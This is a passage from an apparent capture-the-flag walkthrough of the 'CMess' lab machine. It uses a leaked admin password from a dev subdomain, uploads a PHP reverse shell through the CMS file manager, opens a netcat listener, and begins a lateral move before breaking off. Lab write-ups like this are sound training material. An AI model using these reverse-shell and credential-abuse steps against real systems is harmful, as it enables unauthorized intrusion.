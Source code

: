 ~~~
Processed Requests: 4997
Filtered Requests: 4996
Requests/sec.: 72.72825
~~~

We have discovered a hidden `dev.cmess.thm` subdomain. Let's add it to our `/etc/hosts` file:

~~~
$ cat /etc/hosts
[REDACTED]
10.10.38.29 cmess.thm
10.10.38.29 dev.cmess.thm
~~~

Now, let's see what we can get from this subdomain:

~~~
$ curl -s dev.cmess.thm | html2text
***** Development Log *****
**** andre@cmess.thm ****
Have you guys fixed the bug that was found on live?

**** support@cmess.thm ****
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're
hoping to patch it in the upcoming patch!

**** support@cmess.thm ****
Update! We have had to delay the patch due to unforeseen circumstances

**** andre@cmess.thm ****
That's ok, can you guys reset my password if you get a moment, I seem to be
unable to get onto the admin panel.

**** support@cmess.thm ****
Your password has been reset. Here: KPFTN_f2yxe%
~~~

We are provided with an email address and a password. Now you can log in:

* URL: http://cmess.thm/admin/
* Email: `andre@cmess.thm`
* Password: `KPFTN_f2yxe%`

Once logged in, go to `Content > File Manager`.

Now, downlaod a PHP shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz), add a file named `shell.php` in the `assets` directory and put the content of the PHP reverse shell (don't forget to modify your IP and port).

Open a listener on your machine (`rlwrap nc -nlvp 4444`), on the port you selected, and browse http://cmess.thm/assets/shell.php. You should now be logged in as `www-data`.

## Lateral move to Andre

If you list the `/home` folder, you'll notice that `andre` is a user. Let's try a lateral move. After searching a bit (you can use `linenum` or `linpeas` to help), you'll notice that Andre's password has been backup'ed in a hidden file under the `/opt` directory:
